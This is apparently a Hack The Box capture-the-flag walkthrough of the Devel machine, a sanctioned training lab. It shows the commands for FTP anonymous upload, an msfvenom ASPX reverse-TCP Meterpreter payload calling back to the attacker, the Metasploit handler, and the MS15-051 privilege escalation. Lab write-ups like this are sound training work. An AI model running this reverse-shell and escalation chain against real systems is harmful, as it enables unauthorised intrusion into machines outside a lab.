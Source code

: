 # Hack The Box - Devel Writeup

## 1. Initial Scan

**Command:**

```bash
nmap -sV -sC TARGET
```

**Results:**

| Port | State | Service | Version                 | Notes                                                                      |
| ---- | ----- | ------- | ----------------------- | -------------------------------------------------------------------------- |
| 21   | open  | ftp     | Microsoft ftpd          | Anonymous login allowed; contains files like `iisstart.htm`, `welcome.png` |
| 80   | open  | http    | Microsoft IIS httpd 7.5 | `http-title`: IIS7; `TRACE` method enabled                                 |

**Service Info:**
OS: Windows
CPE: `cpe:/o:microsoft:windows`

---

## 2. Enumeration

* Navigated to the web server at `http://TARGET` → Default IIS page
* Discovered anonymous FTP login allowed from Nmap
* Logged in via FTP:

  ```bash
  ftp TARGET
  Username: anonymous
  Password: (blank)
  ```
* Successfully uploaded a test file:

  ```bash
  put test.txt
  ```
* Verified the upload at:

  ```
  http://TARGET/test.txt
  ```

---

## 3. Exploitation

**Payload Creation with `msfvenom`:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx -o payload.aspx
```

* Explanation:

  * `-p`: Payload
  * `-f`: Output format (`aspx` for ASP.NET)
  * `-o`: Output file
  * `tun0`: VPN interface

* Uploaded `payload.aspx` via FTP

* Started Metasploit:

  ```bash
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set LHOST tun0
  set LPORT 4444
  run
  ```

* Triggered payload:

  ```
  http://TARGET/payload.aspx
  ```

* Verified access:

  ```bash
  getuid
  sysinfo
  pwd
  ```

---

## 4. Post-Exploitation

**Privilege Escalation with Metasploit:**

* Searched for local exploits:

  ```bash
  run post/multi/recon/local_exploit_suggester
  ```

* Chose exploit (this is a known privilege escalation exploit):

  ```
  windows/local/ms15_051_client_copy_image
  ```

* Steps:

  1. Background current session
  2. Use exploit module:

     ```bash
     use exploit/windows/local/ms15_051_client_copy_image
     ```
  3. Check session ID:

     ```bash
     sessions
     ```
  4. Set required options:

     ```bash
     set SESSION <id>
     set LHOST <your-ip>
     run
     ```

* Verified elevated privileges:

  ```bash
  getuid
  ```

* Retrieved flags:

  * User flag: `C:\Users\babus\Desktop\user.txt`
  * Root flag: `C:\Users\Administrator\Desktop\root.txt`

---

## 📚 References

* [CVE-2015-1701](https://www.cvedetails.com/cve/CVE-2015-1701/)

---

## 🛠️ Tools Used

* Nmap
* Metasploit
* msfvenom
* FTP client

---

## 🎓 Lessons Learned

* Using an open FTP port to upload payloads to a web server
* Crafting and customizing payloads using `msfvenom`
* Catching reverse shells with `exploit/multi/handler`
* Escalating privileges using known Windows vulnerabilities via Metasploit
